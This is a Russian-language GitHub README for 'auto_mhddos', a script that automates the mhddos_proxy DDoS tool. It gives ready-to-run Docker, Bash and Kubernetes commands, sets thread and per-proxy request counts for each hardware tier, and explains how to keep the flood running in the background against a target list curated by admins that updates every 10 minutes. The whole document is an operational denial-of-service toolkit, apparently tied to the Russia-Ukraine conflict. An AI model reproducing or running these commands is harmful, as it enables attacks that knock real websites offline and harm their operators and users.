 ### ⭕️ Оперативный штаб Жнецов
![photo_2022-03-17_23-39-03](https://user-images.githubusercontent.com/41838573/158963538-944690c4-83ea-4934-9a29-6eb8f1e61f3a.jpg)

### Представляем auto_mhddos - автоматизирующий скрипт [mhddos_proxy](https://github.com/porthole-ascend-cinnamon/mhddos_proxy)

1. [Docker](https://github.com/Aruiem234/auto_mhddos#-docker)
2. [Bash(Linux-терминал)](https://github.com/Aruiem234/auto_mhddos#-bash)
3. [Kubernetes](https://github.com/Aruiem234/auto_mhddos/tree/main/helm-charts#mhddos-auto-helm-charts)

## 🪖 Docker

Установить [Docker](https://docs.docker.com/get-docker/) и запустить команду:  
  
* для ленивих(кол-во потоков будет 1000, запросов на прокси-сервер перед отправкой на цель: 200):
```shell
docker run -it --rm --pull always ghcr.io/aruiem234/auto_mhddos:latest
```



### Команды docker для разного железа: 

-- Слабое (2 ядра + 2-4 ГБ Озу).


```shell
docker run -it --rm --pull always ghcr.io/aruiem234/auto_mhddos:latest 500 100  
```
  
-- Среднее (4 ядра + 4-8 Гб Озу) .Эти же параметры использутся по умолчанию, если запускать команду без аргументов.:   
  

```shell
docker run -it --rm --pull always ghcr.io/aruiem234/auto_mhddos:latest 1000 200  
```
  
-- Быстрое(4+ ядер + 8+ Гб Озу):  

  
```shell
docker run -it --rm --pull always ghcr.io/aruiem234/auto_mhddos:latest 2500 400  
```
  
Значение параметров на примере "500 100":  
  
500 - количество потоков (threads). Параметр -t в mhddos_proxy.  
  
100 - параметр --rpc в mhddos_proxy. (количество пакетов отправляемых на прокси-сервер, перед тем как он передаст их на сайт-цель)  

## 🪖 Bash(Linux-терминал)  


### 1. Установка.  
  
Выполняется для начальной установки ПО, и периодического обновления. Не обязательно использовать каждый раз.  


```shell
sudo su
cd ~  
git clone https://github.com/Aruiem234/auto_mhddos.git  
cd ~/auto_mhddos  
bash setup.sh  

```
!!!Ждем пока выполнится!!!  


Скрипт автоматически устанавливает git, python3, pip, mhddos_proxy, MHDDoS и все зависимости.

### 2. Запуск.

Bash скрипт работает в Linux и WSL (Windows Subsystem for Linux). Работает автоматически, даже при закрытии терминала (если вы четко придерживаетесь инструкций)  

Не забудьте сначала выполнить пункт №1 (Установка).  


```shell
sudo su
cd ~/auto_mhddos
screen -S "runner" bash runner.sh 1000 200
```
Для разных машин вместо параметров "1000 200" выбирайте следующее:  
-- Слабое (2 ядра + 2-4 ГБ Озу) - 500 100  
-- Среднее (4 ядра + 4-8 Гб Озу) - 1000 200  
-- Быстрое(4+ ядер + 8+ Гб Озу) - 2500 400  

Нажимаем Ctrl+A , затем Ctrl+D - И ВСЕ ГОТОВО - РАБОТАЕТ В ФОНЕ  
Если все успешно, то будет сообщение [detached from runner]  
  
Чтоб посмотреть, что там работает в фоне:  
```shell
sudo screen -ls
```
  
Чтоб перейти к процессу и узнать как у него дела (что он выводит)
щоб перейти до процесу та дізнатися як у нього справи (що він виводить), пишите:
```shell
screen -r runner
```
После этого, если захотите убить процес - нажимайте Ctrl+C  
Чтоб убить все его подпроцесы:  
```shell
sudo pkill -f runner.py
sudo pkill -f ./start.py
```
  
чтоб опять отключиться, и оставить его работать в фоне:  
Нажимаем Ctrl+A , затем Ctrl+D - И ВСЕ ГОТОВО - РАБОТАЕТ В ФОНЕ  


# ❕Описание

* Скрипт работает полностью автоматически - ВЫ МОЖЕТЕ ЗАКРЫВАТЬ ОКНО ТЕРМИНАЛА(кроме докера на Windows), но не выключать саму машину (а сервер и так работает 24/7)

* Работает с курируемым админами единым списком [сайтов-целей](https://github.com/Aruiem234/auto_mhddos/blob/main/runner_targets).

* База целей обновляется скриптом каждые 10 мин.




Теоретически все это позволяет запустить скрипт на ПК/vps и всю остальную работу (обновление, перезапуск) он будет делать самостоятельно.

Рекомендуется использовать на Ubuntu 20.04. Вероятно будет работать на всех Ubuntu начиная с 18.04, а также всех производных Ubuntu и WSL2.



### 🇺🇦🇺🇦🇺🇦 СЛАВА УКРАЇНІ 🇺🇦🇺🇦🇺🇦
### ПТН ХЛО 🤡
